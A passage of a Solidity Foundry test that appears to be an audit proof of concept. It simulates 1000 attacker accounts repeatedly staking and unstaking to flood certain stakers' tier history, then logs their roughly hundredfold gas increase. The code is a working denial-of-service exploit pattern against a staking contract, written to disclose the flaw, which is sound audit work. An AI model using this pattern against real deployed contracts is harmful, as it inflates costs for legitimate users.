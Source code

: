 ```solidity
            token.approve(address(staking), MIN_STAKE);
            uint256 gasStart = gasleft();
            staking.stake(MIN_STAKE);
            staking.unstake(MIN_STAKE);
            vm.stopPrank();

            uint256 gasUsed = gasStart - gasleft();

            if (i % 100 == 0) {
                // log gas used by each 100th attacker
                console2.log(
                    "Attacker #%s: Gas used for stake+unstake: %s",
                    i,
                    gasUsed
                );
            }
        }
        console2.log(
            "\n------------SIMULATION OF DoS with 1000 subsequent attackers COMPLETED---------------------"
        );

        // Post-attack: stakers 3,8,9 have their tier history flooded with 2000 events(due to 2000 tier boundary shifts)
        // Staker 1 is unaffected as it is not on the boundary.
        uint256 len1After = staking.stakerTierHistoryLength(stakers[1]);
        uint256 len3After = staking.stakerTierHistoryLength(stakers[3]);
        uint256 len8After = staking.stakerTierHistoryLength(stakers[8]);
        uint256 len9After = staking.stakerTierHistoryLength(stakers[9]);

        console2.log("User 1 tier history length after attack: %s", len1After);
        console2.log("User 3 tier history length after attack: %s", len3After);
        console2.log("User 8 tier history length after attack: %s", len8After);
        console2.log("User 9 tier history length after attack: %s", len9After);

        assertEq(len8After, 2001); //2001 = 1 initial stake + 2000 events from the flood attack
        assertEq(len9After, 2001);

        console2.log(
            "\n------------Gas costs after attack---------------------"
        );

        // 3. Gas costs for unaffected staker1
        vm.startPrank(stakers[1]);
        token.approve(address(staking), MIN_STAKE);
        uint256 gasStart1 = gasleft();
        staking.stake(MIN_STAKE);
        uint256 gasUsed1 = gasStart1 - gasleft();
        console2.log("Staker1 used %s gas for staking", gasUsed1);
        vm.stopPrank();

        // 4. Demonstrate the increase in gas costs for stake/unstake/claimInterest operations for staker 8
        // Gas difference with unaffected users - magnitude of 100x
        vm.startPrank(stakers[8]);
        token.approve(address(staking), MIN_STAKE);
        uint256 gasStartStaker8 = gasleft();
        staking.unstake(MIN_STAKE);
        //staking.stake(MIN_STAKE); - will require same high gas cost
        uint256 gasUsedForStaker8 = gasStartStaker8 - gasleft();
        console2.log("Staker8 used %s gas for staking", gasUsedForStaker8);
        vm.stopPrank();
    }
```